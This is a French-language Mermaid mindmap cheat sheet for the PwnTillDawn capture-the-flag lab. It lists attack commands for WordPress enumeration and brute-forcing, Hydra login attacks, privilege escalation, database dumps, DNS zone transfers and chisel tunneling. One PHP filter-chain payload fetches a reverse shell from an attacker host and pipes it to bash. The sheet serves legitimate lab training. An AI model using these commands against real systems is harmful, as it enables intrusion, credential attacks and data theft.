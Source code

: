 mindmap
  root((Pwntilldawn FULL))
    Stegano
      Aperisolve
      Stereogram
        "https://piellardj.github.io/stereogram-solver/"
      Steghide
        "steghide extract -sf screen.jpeg"
      Depixelise
        Depix
          "python3 depix.py -p pixel_image -s images/searchimages/image.png"
        Unredactor
    WEB
      Wordpress
        "Enumération users"
          "wpscan --url url --enumerate u"
        "Check template et plugins vulnérables"
          "wpscan --url url --enumerate vp,vt"
        Bruteforce
          "wpscan --url url_wordpress --passwords wordlist"
        "wpscan --url https://www.hackinprovence.fr/ -e u"
      PHP Filters
        "\"python3 script.py --chain '<?= `wget attack_ip/revshell|bash`?>'\""
        "https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py"
      "Enumération"
        Path
          Dirsearch
          FeroxBuster
            "feroxbuster -u url -w ~/Desktop/SecLists-master/Discovery/Web-Content/common.txt --filter-status 404"
            "Sub title"
            "feroxbuster -u http://example.com -w wordlist -x php,html,txt -v -o output.txt --filter-status 404"
      "Bruteforce Forms"
        Hydra
          "hydra -l admin -P SecLists-master/rockyou.txt 10.150.150.38 -s 30609 -t 20 http-post-form \"/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password\""
    Privesc
      Metasploit
        "msfconsole"
        "multi/recon/local_exploit_suggester"
        "Upgrade session : sessions -u <id>"
      searchsploit
        "searchsploit xxxx"
        "searchsploit -m chemin"
      linpeas
        "sudo python3 -m http.server port (attaquant) et wget"
      SUID
        "find / -perm -u=s -type f 2>/dev/null"
      "Lien symbolique"
        "ln -s /root /home/michael/important_files/root_backup"
      LXC/LXD
        "https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation"
      Windows
        Shell
          "Upgrade shell"
            "sessions -u id"
            "ps --> migrate pid"
        msfconsole
          "multi/recon/local_exploit_suggester"
    "Trouver un flag"
      Linux
        "find ./* | grep FLAG3"
        "find / -name FLAG6.txt 2>/dev/null"
        "find / -type f -name 'FLAG[0-9][0-9]' 2>/dev/null"
        "find / -type f -name 'FLAG[0-9].txt' 2>/dev/null"
      Windows
        "@for /r C:\\ %i in (FLAG??.txt) do @echo %i && @type \"%i\""
    Misc
      "Si besoin des erreurs mais pas affichée (ex webshell php)"
        "Ajout de \"2>fichier\" apres la commande"
        "puis faire un cat du fichier"
      "Dumb shell upgrade"
        "python -c 'import pty; pty.spawn(\"/bin/bash\")'"
        "python3 -c 'import pty; pty.spawn(\"/bin/bash\")'"
      "netstat -antup"
    "Protocoles divers"
      FTP
        "Login anon à vérif"
      NFS
        "showmount -e IP"
        "rpcinfo IP"
        "sudo mount -t nfs ip:/remote /local"
        "sudo umount 10.150.150.59:/nfsroot"
      SSH
        "Test de se co pour la bannière"
        "Connexion si on a la clé privée"
          "ssh -i id_rsa user@ip"
      DNS
        "! AXFR !"
          "dig @mortysserver.com mortysserver.com axfr"
        "Ajout dans /etc/hosts si besoin"
          "Exemple : 10.150.150.57 rickscontrolpanel.mortysserver.com"
      Mysql
        "mysql -h localhost -u sql_user -p"
        "mysqldump -u root -p --all-databases > alldb.sql"
    NMAP
      "nmap -sV -sC -T5 -p- ip"
      "sudo nmap -sF -p1-100 -T4"
    "Pivoting / Tunneling"
      "Verifier ce qui écoute sur localhost"
        "netstat -antup"
      "Tunneling & Port Forwarding"
        "Si on a un acces SSH"
          "sshuttle -r user@ip -N"
        "Web en écoute sur localhost"
          "Sur la victime"
            "./chisel client ip_host:7777 R:8080:127.0.0.1:8080"
              "Ne pas oublier d'adapter le port 8080 selon les situations"
          "Sur l'host"
            "chisel server -port 7777 --reverse"
